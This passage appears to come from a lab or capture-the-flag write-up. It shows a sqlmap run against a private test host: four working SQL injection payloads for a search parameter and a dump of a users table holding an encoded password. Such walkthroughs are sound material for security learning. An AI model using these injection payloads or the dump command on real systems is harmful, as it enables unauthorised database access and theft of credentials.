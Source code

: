 
Perfect. I dumped the contents of the seth database which revealed some juicy data: 

```
# sqlmap --url 'http://192.168.107.135/kzMb5nVYJw/420search.php?usrtosearch=ramses' --risk=2 --dbms=MySQL --level=2 -D seth --dump
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150731}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 23:20:16

[23:20:16] [INFO] testing connection to the target URL
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Parameter: usrtosearch (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: usrtosearch=ramses" AND 7400=7400#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: usrtosearch=ramses" AND (SELECT 5418 FROM(SELECT COUNT(*),CONCAT(0x7176716a71,(SELECT (CASE WHEN (5418=5418) THEN 1 ELSE 0 END)),0x7170716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND "pVLf"="pVLf

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: usrtosearch=ramses" UNION ALL SELECT NULL,NULL,CONCAT(0x7176716a71,0x474e5446774b66716f49,0x7170716a71)#

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind (SELECT)
    Payload: usrtosearch=ramses" AND (SELECT * FROM (SELECT(SLEEP(5)))tcur) AND "xRCR"="xRCR
---
[23:20:16] [INFO] testing MySQL
[23:20:16] [INFO] confirming MySQL
[23:20:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.10
back-end DBMS: MySQL >= 5.0.0
[23:20:16] [INFO] fetching tables for database: 'seth'
[23:20:16] [INFO] fetching columns for table 'users' in database 'seth'
[23:20:16] [INFO] fetching entries for table 'users' in database 'seth'
[23:20:16] [INFO] analyzing table dump for possible password hashes
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+

[23:20:16] [INFO] table 'seth.users' dumped to CSV file '/root/.sqlmap/output/192.168.107.135/dump/seth/users.csv'
[23:20:16] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.107.135'

```